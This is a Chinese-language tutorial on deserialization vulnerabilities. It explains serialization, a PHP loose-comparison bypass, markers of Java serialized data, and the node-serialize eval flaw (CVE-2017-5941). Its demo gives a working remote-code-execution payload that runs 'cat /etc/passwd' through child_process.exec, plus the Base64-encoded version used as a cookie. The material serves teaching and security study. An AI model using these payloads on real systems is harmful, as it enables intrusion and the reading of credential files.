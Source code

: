 # 序列化/反序列化攻击

在过去的几年中，通过网络进行的序列化/反序列化攻击变得越来越流行。我们在BlackHat上看到了许多不同的讨论，发现Jenkins和Apache Struts2等常见应用程序中的关键漏洞，并且正在开发像ysoserial这样工具的大量活跃研究。

## 什么是序列化与反序列化

序列化是指把对象转换为字节序列的过程，而反序列化是指把字节序列恢复为对象的过程，序列化和反序列化便于跨平台存储和网络传输：

- **序列化**：对象序列化的最主要的用处就是在传递和保存对象的时候，保证对象的完整性和可传递性。序列化是把对象转换成有序字节流，以便在网络上传输或者保存在本地文件中。核心作用是对象状态的保存与重建。
- **反序列化**：客户端从文件中或网络上获得序列化后的对象字节流，根据字节流中所保存的对象状态及描述信息，通过反序列化重建对象。

## 为什么需要序列化与反序列化？

**对象序列化可以实现分布式对象。**

主要应用例如：RMI（即远程调用，Remote Method Invocation）要利用对象序列化运行远程主机上的服务，就像在本地机上运行对象时一样。

**序列化不仅保留一个对象的数据，而且递归保存对象引用的每个对象的数据。**

可以将整个对象层次写入字节流中，可以保存在文件中或在网络连接上传递。利用对象序列化可以进行对象的**"深复制"，即复制对象本身及引用的对象本身**。序列化一个对象可能得到整个对象序列。

**序列化可以将内存中的类写入文件或数据库中。**

比如：将某个类序列化后存为文件，下次读取时只需将文件中的数据反序列化就可以将原先的类还原到内存中。也可以将类序列化为流数据进行传输。

总的来说就是将一个已经实例化的类转成文件存储，下次需要实例化的时候只要反序列化即可将类实例化到内存中并保留序列化时类中的所有变量和状态。

**对象、文件、数据，有许多不同的格式，很难统一传输和保存。**

序列化以后就都是字节流了，无论原来是什么东西，都能变成一样的东西，就可以进行通用的格式传输或保存，传输结束以后，要再次使用，就进行反序列化还原，这样对象还是对象，文件还是文件。

## 反序列化漏洞

### PHP

提到php代码绕过，必然会提起`比较操作符`,下面来谈一谈比较操作符`==`与`===`，这两种都可以比较两个数字的大小，但是有很明显的区别。

| 操作符 | 描述                                   |
| :----- | :------------------------------------- |
| ==     | 把两端变量类型转换成相同的，再进行比较 |
| ===    | 先判断两端变量类型是否相同，再进行比较 |

**注意**：在两个相等的符号中，一个字符串与一个数字相比较时，字符串会转换成数值。

```php
public function process(){
	if ($this->op == "1"){
		$this->write();
	} else if ($this->op == '2'){
		$this->read();
	} else {
	$this->output("Bad Hacker!");
}


function __destruct(){
	if ($this->op === "2")
		this->op = 1;
	$this->content = "";
	$this->process()
}
```

由上面代码可见，判断`op === "2"`时，可以将`"2"`改成数字`2`或`" 2"`来进行比较，这样，op的值就不会被修改为1，而调用`process`函数时，使用的是`==`，那么，就会把类型进行转换，然后得到相同的值，进而实现跳过执行`write`函数而执行`read`函数，执行SQL语句、script脚本等。

### Java

小技巧

* 一段数据以`rO0AB`开头，基本可以确定这串就是JAVA序列化base64加密的数据。

* 或者如果以`aced`开头，那么他就是这一段java序列化的16进制。

Java中API实现

* Java.io.ObjectOutputSteam
* Java.io.ObjectInputSteam

序列化：ObjectOutputSteam类 --> writeObject()

> 该方法对参数指定的obj对象进行序列化，把字节序列写道一个目标输出流中，按Java的标准约定是给一个.ser扩展名。

反序列化：

ObjectInputSteam --> readObject()

> 该方法从一个源输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huanJava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.png)

### [代码样例](https://github.com/luin/serialize/search?utf8=%E2%9C%93&q=eval&type)

```
        } else if(typeof obj[key] === 'string') {
          if(obj[key].indexOf(FUNCFLAG) === 0) {
            obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
```

构造序列化的payload，它将被反序列化。

```
{“thp”:“_$$ND_FUNC$$_function (){require(‘child_process’).exec(‘DO SYSTEM COMMANDS HERE’,
function(error, stdout, stderr) { console.log(stdout) });}()”}
```

上面序列化对象将通过类似于以下的请求方式`(){require('child_process').exec('ls')}`，进入unserialize函数中的eval语句，为我们提供远程代码执行。

> **立即调用函数表达式**
>
> 立即调用的函数表达式可以用多种不同的方式编写。一个[常见的约定](https://en.wikipedia.org/wiki/Coding_conventions)是将函数表达式 - 以及可选的调用运算符 - 用分组运算符括在括号中，以明确告诉解析器期待一个表达式。否则，在大多数情况下，当解析器遇到`function`关键字时，它会将其视为函数声明（语句），而不是函数表达式。
>
> ```
> ( function  ()  {  /* ... */  })(); 
> ( function  ()  {  /* ... */  }()); 
> (()  =>  {  /* ... */  })();  // 使用 ES6 箭头函数（尽管括号只允许在外部使用）
> ```
>
> There are other ways to enforce a function expression:
>
> ```
> !function () { /* ... */ }();
> ~function () { /* ... */ }();
> -function () { /* ... */ }();
> +function () { /* ... */ }();
> void function () { /* ... */ }();
> ```
>
> In contexts where an expression is expected, wrapping in parentheses is not necessary:
>
> ```
> var f = function () { /* ... */ }();
> true && function () { /* ... */ }();
> 0, function () { /* ... */ }();
> ```
>
> Passing variables into the scope is done as follows:
>
> ```
> (function(a, b) { /* ... */ })("hello", "world");
> ```
>
> ```
> a = b + c
> ;(function () {
>   // code
> })();
> ```
>
> 参考链接1：[Immediately invoked function expression](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression)
>
> 参考链接2：[CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941)

## 演示

对该网页抓包分析，获取到cookie，拿到cookie做进一步的分析

```
donotdecodeme=eyJtb2R1bGUiOiJub2RlLXNlcmlhbGl6ZSJ9
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830140855.png)

对其进行Base64解码之后，可以大胆猜测后台是使用了`node-serialize`的序列化组件，根据上面的代码示例，我们再次猜测其存在漏洞。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830141153.png)

### 创建payload

```
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

由于cookie是被编码的，那么我们的payload也需要进行Base64编码，编码后去查看结果，果然我们的命令已经是成功执行了。

```
eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY2F0IC9ldGMvcGFzc3dkJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830143745.png)

在该示例中，我们利用了函数表达式来远程执行命令，虽然我们没有直接看到该结果，但是既然能执行命令，那么我们完全可以将执行命令的结果保存成文本并发送到我们可以登录的服务器上。

## 参考链接

* [JAVA反序列化漏洞完整过程分析与调试](https://wooyun.js.org/drops/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%8C%E6%95%B4%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90%E4%B8%8E%E8%B0%83%E8%AF%95.html)

* [Java序列化与反序列化三连问：是什么？为什么要？如何做？](https://www.huaweicloud.com/articles/d220bfed560c2750630007368a443633.html)

* [最通俗易懂的PHP反序列化原理分析](https://www.freebuf.com/articles/web/167721.html)
* [CTF PHP反序列化](https://www.cnblogs.com/20175211lyz/p/11403397.html)

